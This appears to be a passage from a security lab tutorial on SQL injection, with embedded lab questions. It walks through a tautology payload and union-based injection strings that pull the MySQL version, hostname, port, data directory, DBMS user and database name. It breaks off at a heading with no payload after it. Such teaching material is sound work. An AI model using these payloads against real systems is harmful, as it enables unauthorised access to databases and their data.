 `SELECT first_name, last_name FROM users WHERE user_id = '$id';`

With our SQL injection payload, it looks like this:

`SELECT first_name, last_name FROM users WHERE user_id = 'test' OR 1=1#';`

The DBMS strips the comment, leaving us with this query:

`SELECT first_name, last_name FROM users WHERE user_id = 'test' OR 1=1`

Ending a statement without a semicolon works as long as no other statements follow it.

## Union-based SQLi queries

A union clause allows attackers to execute additional `select` queries and add results to the original query. It can be used to retrieve data from other tables. However, you need to make sure that:

- Each modified query returns the same number of columns as the original query.
- The data types in each column of the modified query must be compatible those in the original query.

### Show database version

`' union select null, version()#`

### Show hostname

`' union select null, @@hostname#`

{% include lab_question.html question='What kind of variable is `@@hostname`?' %}

{% include lab_question.html question='What's the full path to the SQL server's SSL key?' %}

### Show port

`' union select null, @@port#`

### Concatenate more host information fields

We can concatenate 0x0a (line feed) with selected information to better display it.

`' union select null, concat(@@version, 0x0a, @@hostname, 0x0a, @@datadir, 0x0a, @@version_compile_os) #`

### Show DMBS username

`' union select null, user() #`

### Show all users and the database name 

Demonstrates joining a tautology query with a `database()` query using the `union` command.

`' or 0=0 union select null, database() #`

### Show just the database name

Again demonstrates joining two queries with the union command. Both commands below are equivalent:
